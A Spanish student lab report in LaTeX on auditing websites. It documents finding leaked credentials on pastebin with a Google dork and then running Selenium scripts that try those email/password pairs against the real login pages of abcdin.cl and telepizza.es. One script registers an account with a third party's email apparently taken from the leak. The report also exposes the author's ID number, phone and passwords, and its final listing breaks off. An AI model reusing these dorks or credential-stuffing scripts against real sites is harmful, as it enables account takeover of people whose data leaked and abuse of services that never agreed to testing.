
%
% LaTeX template reporte
%
\documentclass[]{article}
\usepackage[paperheight=27.94cm,paperwidth=21.59cm,bindingoffset=0in,left=2.5cm,right=2.0cm, top=2.5cm,bottom=2.5cm, headheight=200pt, headsep=1.0\baselineskip]{geometry}
\usepackage{graphicx,lastpage}
\usepackage{upgreek}
\usepackage{censor}
\usepackage[spanish,es-tabla]{babel}
\usepackage{listings}

\usepackage{pdfpages}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{adjustbox}
\usepackage{xcolor}
\usepackage{colortbl}
\usepackage{rotating}
\usepackage{animate}
\usepackage{multirow}
\usepackage[utf8]{inputenc}
\renewcommand{\tablename}{Tabla}
\usepackage{fancyhdr}
\usepackage{movie15}
\pagestyle{fancy}
\fancyhf{}
\renewcommand{\footrulewidth}{0.4pt}
\lhead[\leftmark]{Criptografía.}
\rhead[Taller de Redes: Tarea 5]{\rightmark}
\lfoot[\thepage]{}
\rfoot[]{\thepage}
\usepackage{moreverb}
\usepackage{enumitem}
\usepackage{float}
\usepackage{minted}
\usepackage{hyperref}
\usepackage{xcolor}

\definecolor{mygreen}{RGB}{0,128,0}
\hypersetup{
    colorlinks=true,
    linkcolor=black,
    filecolor=magenta,      
    urlcolor=mygreen,
}
\usepackage{listings}
\lstset{basicstyle=\ttfamily,
  showstringspaces=false,
  commentstyle=\color{red},
  keywordstyle=\color{blue}
}



\begin{document}
%------------------Portada--------------
    \begin{titlepage}
        \centering
        \vspace{1cm}
        {\scshape\Large Universidad Diego Portales \par}
        \vspace{2cm}
        {\scshape\Huge Tarea 1: PASSWORD\par}
        \vspace{1cm}
        \vspace{1cm}
        {\itshape\Large Profesor: Víctor Manriquez \par}
        \vfill
        {\Large Integrantes: \par}
        {\Large Diego Carrillo \par}
        \vfill
        {\Large 15 de Mayo 2022 \par}
    \end{titlepage}
%-----------------------------------------------

\tableofcontents
 \newpage
 \section{Introducción}
 En el presente laboratorio, se enfoca principalmente en auditar un sitio web, en donde se pondrá a prueba la seguridad e integrad de este mismo sitio. 
 \\\\
 Poniendo a prueba, la capacidad, de cada pagina, para detectar ataques de fuerza bruta, o bien, procesos automatizados.
 \\\\
 Estos procesos automatizados, fueron generados para contraseñas que se encontraron, para este mismo laboratorio, mediante el uso de Dorks. 

\section{Marco Teorico | Requerimientos}
Para poder desarrollar el presente laboratorio, es necesario tener instalados unos implementos dentro del ordenador, que permitiran
que los programas se ejecuten de fomra correcta. 
\\\\
El unico programa que es necesario tener, es Selenium y el driver que permite la compatibilidad con el explorador a utilizar, en este caso, 
Google Chroome. Para obtener este driver, hay que seguir una serie de pasos, que se encuentran en en la paguina \href{https://sites.google.com/chromium.org/driver/}{guia}.
Este driver, se debe descargar y localizar en la ubicacion que se indica en el codigo a utilizar, en este caso, la direccion es 
\\\\
\begin{verbatim}
    /usr/local/bin
\end{verbatim}
En donde se encontrará un archivo, que se debe ejecutar cada vez que se desee utilizar los codigos correspondiente a selenium. Dicho archivo se debe ejecutar
con la siguiente linea de codigo en la consola de comandos. 
\begin{itemize}
    \item ./chromedriver
\end{itemize}
De igual manera, es de suma importancia tener instalado en el ordenador Python 3.x en donde sea posible trabajar los codigos que se encontraran a continuacion. 


\newpage
\section{Desarrollo}
    A continuación, se mostraran los hitos que componen de este laboratorio, en conjunto con vídeos,
    fotos y código correspondiente para cada caso. 

\subsection{Hito I}

    Para empezar esta actividad, se debió de buscar filtraciones de datos en paginas Chilenas, mediante el uso de dorks.
     Estas filtraciones,deberían de poder contener como mínimo un correo y contraseña para cada usuario.      
    \\\\
    Durante el desarrollo de este hito, surgió una gran cantidad de inconvenientes, debido a que, si bien, se poseia un conocimiento
    sobre el uso de dorks, pero era limitado hasta un cierto punto.Y por otro lado, los sitios en donde se encontraban las filtraciones
    tambien eran limitados.
    \\\\
    Se nos recomendó tener como referencia la pagina de pastebin, el cual es un sitio en donde la comunidad sube sus aportes y datos que han
    obtenido mediante filtraciones a gran escala o simplemente datos que obtienen de manera individual.
    \\\\
    Como los datos que se fueran encontrando, debian de irse rellenando en un excel; provocó que exista competitividad dentro de los 
    integrantes del curos, ya que, los links que se obtuvieron, se repetian, lo que negó el uso de los datos encontrados. Este hito,
    el estudiante lo realizo, aproximadamente, unas 5 veces y fue el que mas tiempo tomó debido a la escases de datos. 
    \\\\
    El Dork utilizado para encontrar las credenciales utilizadas fue el siguiente:
    \\
    \begin{center}
        \textbf{intext:''LulzSecAR'' site:''pastebin.com''}
    \end{center}
    \\\\
    Fue creado para ser utilizado en el buscado de Google, y basicamante, se basa en buscar dentro de la pagina pastebin.com a un usuario, el cual, es conocido por que sus publicaciones o
    comentarios son filtraciones, entonces, se decide ir pos las publicaciones de este usuario para hacer una busqueda que garantice
    un resultado. 
    \\\\
    Posteriormente, al aplicar el dork, dentro del buscador se obtienen solo dos resultados.
    \begin{figure}[h!]
        \centering
        
\includegraphics[width=10cm ]{respuestadork.png}
    \end{figure}
    \\\\
    En esta busqueda, el enlace a utilizar, sera el primero, que nos llevara de forma directa a la
    \href{https://pastebin.com/LgbbJRsp}{publicacion}  con las filtraciones.
    \\\\
    \begin{figure}[h!]
        \centering
        
\includegraphics[width=10cm]{leakspastebin.png}
    \end{figure}


    \\\\
    Una vez obtenidas, los 20 pares de correo contraseña, se procedío a encontrar dos sitios webs. Un sitio, deberia ser de procedencia Chilena
    , mientras que otro, perteneciente a Europa. 
    \\\\
    Encontrar el sitio web Chileno, no fue dificil, es más, existe una gran cantidad de sitios que carecen de seguridad o de una buen
    desarrollo web. En cambio, para europa, fue mas dificil debido a que algunas paginas no lograban cargar o no se cumplia con el tiempo de
    respuesta solicitado, asi como tambien, cuando se probaban sitios, se recibieron baneos y bloqueos de ip dentro de las paginas, e incluso
    eran capaces de detectar automatizaciones, lo que impedia todo tipo de trabajos.(Esto se explicará en los siguientes Hitos)
    \\\\
    Las paginas escogidas, fueron las siguientes: 
    \\\\
    \subsection{Sitios web}
        \subsubsection{Chile}
        \begin{itemize}
            \item www.abcdin.cl
        \end{itemize}

        \subsubsection{Europa}
        \begin{itemize}
            \item www.telepizza.es
        \end{itemize}

\newpage

\subsection{Hito II}

En el siguiente hito, se pondran a pruebas las credenciales que fueron encontradas en el punto pasado. Como se encontró una gran cantidad
de credenciales, estas debieron de ser probadas mediante un proceso automatizado.
\\\\
En primera instancia, se pensó utilizar Medusa o Hydra para generar la automatizacion de procesos, es más, al momento de utilizar hydra, en
en teoría se logro generar el ataque, utilizando las contraseñas que fueron encontradas; pero, no se lograba evidenciar de forma clara
el ataque. 
\\\\
Por lo mencionado anteriormente, se decide reemplazar el uso de estos software, por \textbf{Selenium}, el cual es un entorno de trabajo, que
permite realizar acciones dentro de un entorno web. En donde, se le va dando ordenes, mediante un codigo, que se iran reproduciendo y 
cumpliendo paso a paso.
\\\\
Si bien, ya sabemos con que se realizara este proceso, hay que dejar en claro que es lo que se hará. Un ataque de fuerza bruta, consiste en 
intentar forzar el login de una cuenta mediante la prueba y error de contraseñas. Estos datos que se probaron, fueron los encontrados en el hito
anterior, en las paginas Chilena y Europea.
\\\\
Para poner a prueba el ataque de fuerza bruta, se utilizo el siguiente codigo:

\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    for contraseña in contraseñas:
        for correo in correos: 
            
            email = driver.find_element(By.ID, "email")
            email.clear()
            email.send_keys(correo)
            time.sleep(1)
            passw = driver.find_element(By.ID,"pass")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(1)
            driver.find_element(By.ID, "send2").click()
            time.sleep(2)
    driver.close()

\end{lstlisting}

\\\\
Al inicio del codigo, se utilizan funciones para poder leer los datos que fueron entregados mediante archivos, en donde se almacenó los correos
y contraseñas.

Posteriormente en el codigo se puede observar como se asocia el driver correspondiente al software, para posteriormente ir dando indicaciones, las cuales serán: 
\begin{itemize}
    \item Hacer click en botones. 
    \item Trabajar con Checkbox.
    \item Quitar Avisos de Cookies.
    \item Iniciar un Sleep, para permitirle al usuario interactuar con un Captcha.
    \item Ingresar Credenciales.
\end{itemize}

Todas las acciones mencionadas anteriormente, consisten en obtener ''ID'' y ''XPath'' de los botones o direcciones con las que se
interactua, para asi cumplir con las ordenes deseadas. Estos valores se obtenian ingresando dentro del codigo correspondiente al desarrollo
del sitio web, es decir, se debio inspeccionar la pagina por detrás y asi obtener las credenciales una por una. Esto no siempre era posible, ya que, en muchas
ocaciones los botones del sitio web no siempre poseen ''ID'', y se debia de trabajar con el XPath.
\\\\
En terminos generales, para ambas paginas, se logró probar las credenciales, lo que demostraba que los correos si existian y no eran inventados, 
mientras que, las contraseñas se encontraban cifradas mediante un hash, lo que no me permitiría verla en texto plano, pero de una forma u otra
estras credenciales si existen o existieron para una pagina en especifo, pero para las paginas a probar existia una gran posibilidad de que
no fueran las credenciales corespondiente a una cuenta. 
\\\\
De todas formas, se probaron todas las credenciales para cada usuario, esto es conocido como un ataque de fuerza bruta.

\newpage
\subsection{Hito III}
Para esta seccion,se debio de cumplir con una serie de objetivos, las que requierieron crear un procesos automatizado que 
interactuara con los sitios webs escogidos. 
\begin{itemize}
    \item Creacion de cuenta
    \item Inicio de sesión
    \item Restablecimiento de contraseña
    \item Modificacion de contraseñas
\end{itemize}

Como se mencionó anteriormente, se utilizó selenium, dentro del lenguaje de programacion \textbf{Python}, el cual, es el que permite
y es más comodo trabajar con Selenium. Para utilizarlo, fue necesario descargar unos drivers que me permitiera trabajar con el navegador
de google Chrome. Y de la misma manera, ejecutarlo cada vez que sea necesario trabajar con esto.
\\\\
Para facilitar y reducir los posibles errores, para las paginas utilizadas, se accede directo al sitio web en donde se dan las opciones de 
login o creacion de cuenta, asi como tambien, reestablecer cuenta.
\\\\
A continuacion, se dividirá lo solicitado tanto para Chile como para Europa.
\subsection{Chile}
\subsubsection{Creacion de Cuenta}
    \begin{lstlisting}[lenguaje=py]
        import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo=['diego.carrillo1@mail.udp.cl']
    contraseña =['newPASS123']

    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/create/')
    time.sleep(5)
    nombre = driver.find_element(By.ID,"firstname")
    nombre.clear()
    nombre.send_keys('DIEGO')
    time.sleep(1)
    
    apellido = driver.find_element(By.ID,"lastname")
    apellido.clear()
    apellido.send_keys('CARRILLO')
    time.sleep(1)

    rut = driver.find_element(By.ID,"rut")
    rut.clear()
    rut.send_keys('20469491-5')
    time.sleep(1)

    dia = driver.find_element(By.ID,"dob-day")
    dia.clear()
    dia.send_keys('9')
    time.sleep(1)

    mes = driver.find_element(By.ID,"dob-month")
    mes.clear()
    mes.send_keys('3')
    time.sleep(1)

    mes = driver.find_element(By.ID,"dob-year")
    mes.clear()
    mes.send_keys('2000')
    time.sleep(1)

    driver.find_element(By.ID,"gender").click()
    driver.find_element(By.XPATH,'//*[@id="gender"]/option[3]').click()
    time.sleep(1)

    tel = driver.find_element(By.ID,"customer_telephone")
    tel.clear()
    tel.send_keys('954171598')
    time.sleep(1)

    mail = driver.find_element(By.ID,"email_address")
    mail.clear()
    mail.send_keys(correo)
    time.sleep(1)

    password = driver.find_element(By.ID,"password")
    password.clear()
    password.send_keys(contraseña)
    time.sleep(1)

    passwordconfirmation = driver.find_element(By.ID,"password-confirmation")
    passwordconfirmation.clear()
    passwordconfirmation.send_keys(contraseña)
    time.sleep(1)

    driver.find_element(By.ID,"is_subscribed").click()
    driver.find_element(By.ID,"term_conditions").click()
    time.sleep(20)
    driver.find_element(By.XPATH,'//*[@id="form-validate"]/fieldset[3]/div[8]/div/button').click()
    time.sleep(50)


    driver.close()
    \end{lstlisting}

    \\\\

    Al memento, de compilar este codigo, es necesaria la intervencion humana durante la ejecucion del codigo, debido a que al momento de crear
    una cuenta existe un Captcha que no se puede automatizar, ya que estos, son ''cortafuegos'' para procesos automatizados o tecnicas de
    hacking, es por esto, que se utiliza un sleep de larga duracion, para darle al usuario el tiempo necesario para crear la cuenta.

\newpage
\subsubsection{Inicio de Sesion}
    Este codigo, es el mismo utilizado en el hito 2, en donde se debe automatizar un inicio de sesión probando las credenciales encontradas.

    \\\\

    \begin{lstlisting}[lenguaje=py]
        import string, random, time
        from selenium import webdriver
        from selenium.webdriver.common.keys import Keys
        from selenium.webdriver.common.by import By
        from ctypes import sizeof
        ubicacionDriver = '/usr/local/bin/chromedriver'
        
        def readUsuarios():
            usuarios = list()
            arc = open("user.txt")
            lineas = arc.readlines()
            i = 0    #driver.get('https://www.abcdin.cl/')
            for lineas in lineas:
                usuarios.append(lineas)
            return usuarios
        
        def readPasswords():
            passwords = list()
            arc = open("pass.txt")
            lineas = arc.readlines()
            i = 0
            for lineas in lineas:
                passwords.append(lineas)
            return passwords
        
        
        if __name__ == "__main__":
            options = webdriver.ChromeOptions()
            options.add_argument('--start-maximized')
            options.add_argument('--disable-extensions')
        
            driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
            correos=readUsuarios()
            contraseñas=readPasswords()
            driver.set_window_position(1000,0)
            driver.maximize_window()
            time.sleep(1)
            driver.get('https://www.abcdin.cl/customer/account/login/')
            time.sleep(5)
            for contraseña in contraseñas:
                for correo in correos: 
                    
                    email = driver.find_element(By.ID, "email")
                    email.clear()
                    email.send_keys(correo)
                    time.sleep(1)
                    passw = driver.find_element(By.ID,"pass")
                    passw.clear()
                    passw.send_keys(contraseña)
                    time.sleep(1)
                    driver.find_element(By.ID, "send2").click()
                    time.sleep(2)
            driver.close()
        
        \end{lstlisting}
\newpage
\subsubsection{Restablecimiento de Contraseña}      
    \begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo = 'diego.carrillo1@mail.udp.cl'
    passnew='newPASS123'
    passold='oldPASS123' # pass recien cambiada
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    email = driver.find_element(By.ID, "email")
    email.clear()
    email.send_keys(correo)
    time.sleep(1)
    passw = driver.find_element(By.ID,"pass")
    passw.clear()
    passw.send_keys(passnew)
    time.sleep(1)
    driver.find_element(By.ID, "send2").click()
    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="maincontent"]/div[2]/div[1]/div[4]/div[2]/div/div[2]/a[2]/span').click()
    time.sleep(5)
    
    contant = driver.find_element(By.ID,'current-password')
    contant.clear()
    contant.send_keys(passnew)
    time.sleep(2)

    new = driver.find_element(By.ID,'password')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    new = driver.find_element(By.ID,'password-confirmation')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    driver.find_element(By.XPATH,'//*[@id="form-validate"]/div[2]/div[1]/button').click()
    time.sleep(200)
    driver.close()
    \end{lstlisting}


\newpage
\subsubsection{Modificacion de Contraseña}
\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo = 'diego.carrillo1@mail.udp.cl'
    passnew='newPASS123'
    passold='oldPASS123' # pass recien cambiada
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    email = driver.find_element(By.ID, "email")
    email.clear()
    email.send_keys(correo)
    time.sleep(1)
    passw = driver.find_element(By.ID,"pass")
    passw.clear()
    passw.send_keys(passnew)
    time.sleep(1)
    driver.find_element(By.ID, "send2").click()
    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="maincontent"]/div[2]/div[1]/div[4]/div[2]/div/div[2]/a[2]/span').click()
    time.sleep(5)
    
    contant = driver.find_element(By.ID,'current-password')
    contant.clear()
    contant.send_keys(passnew)
    time.sleep(2)

    new = driver.find_element(By.ID,'password')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    new = driver.find_element(By.ID,'password-confirmation')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    driver.find_element(By.XPATH,'//*[@id="form-validate"]/div[2]/div[1]/button').click()
    time.sleep(200)
    driver.close()
\end{lstlisting}

\subsection{Europa}

\subsubsection{Cambiar contraseña}
\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo = ['diego.carrillo.1331@gmail.com']
    passnew=['newPASS123%']
    passold=['oldPASS123%'] # pass recien cambiada
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')

    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    
    email = driver.find_element(By.ID, 'UserName')
    email.clear()
    email.send_keys(correo)
    time.sleep(5)

    passw = driver.find_element(By.ID,"Password")
    passw.clear()
    passw.send_keys(passnew)
    time.sleep(5)
    
    driver.find_element(By.ID, "login-submit").click()
    time.sleep(5)

    driver.find_element(By.XPATH, '//*[@id="user-dropdown"]').click()
    time.sleep(5)

    driver.find_element(By.XPATH, '//*[@id="user-dropdown"]/div/a[3]/div').click()
    time.sleep(5)

    email = driver.find_element(By.XPATH, '//*[@id="Email"]')
    email.clear()
    email.send_keys(correo)
    time.sleep(5)

    driver.find_element(By.XPATH,'//*[@id="main-content"]/div[2]/div/div/form/div[2]/div/button').click()
    time.sleep(30)

    driver.close()
\end{lstlisting}

\subsubsection{Crear Cuenta}

\begin{lstlisting}[lenguaje=py]
    import string, random, time
    from selenium import webdriver
    from selenium.webdriver.common.keys import Keys
    from selenium.webdriver.common.by import By
    from ctypes import sizeof
    ubicacionDriver = '/usr/local/bin/chromedriver'
    
    
    if __name__ == "__main__":
        options = webdriver.ChromeOptions()
        options.add_argument('--start-maximized')
        options.add_argument('--disable-extensions')
    
        driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
        correo=['ljimenez@gorecoquimbo.cl']
        contraseña =['A202cb962ac5912%']
    
        driver.set_window_position(1000,0)
        driver.maximize_window()
        time.sleep(1)
        driver.get('https://www.telepizza.es/account/login')
        time.sleep(5)
        driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
        time.sleep(5)
        driver.find_element(By.XPATH,'//*[@id="main-content"]/div/div/div[2]/div/a').click()
        time.sleep(5)
    
        scorreo = driver.find_element(By.XPATH,'//*[@id="RegisterUserName"]')
        scorreo.clear()
        scorreo.send_keys(correo)
        time.sleep(5)
    
        passw = driver.find_element(By.XPATH,'//*[@id="RegisterPassword"]')
        passw.clear()
        passw.send_keys(contraseña)
        time.sleep(1)
        
        passw = driver.find_element(By.XPATH,'//*[@id="RegisterConfirmPassword"]')
        passw.clear()
        passw.send_keys(contraseña)
        time.sleep(1)
        
        driver.find_element(By.XPATH,'//*[@id="ActivityTypesViewModel_CustomerActivitiesViewModel_1__Value"]').click()
        time.sleep(10)
        
        driver.find_element(By.XPATH,'//*[@id="register-form-content"]/div[7]/div/input').click()
        time.sleep(20)
        driver.close()
\end{lstlisting}

\subsubsection{Olvidar Contraseña}
\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0   
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')
    time.sleep(5)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    i = 0
    for correo in correos:
        recover = driver.find_element(By.XPATH,'//*[@id="login-with-email"]').click()        
        time.sleep(10)
        recover = driver.find_element(By.ID,'Email')
        recover.clear()
        recover.send_keys(correo)
        time.sleep(10)
        recover = driver.find_element(By.XPATH,'//*[@id="main-content"]/div/div/div/form/div[2]/div/button').click()
        time.sleep(10)
        break
    driver.close()


\end{lstlisting}

\subsubsection{ Iniciar Sesión}

\begin{lstlisting}[lenguaje =py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.telepizza.es/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')
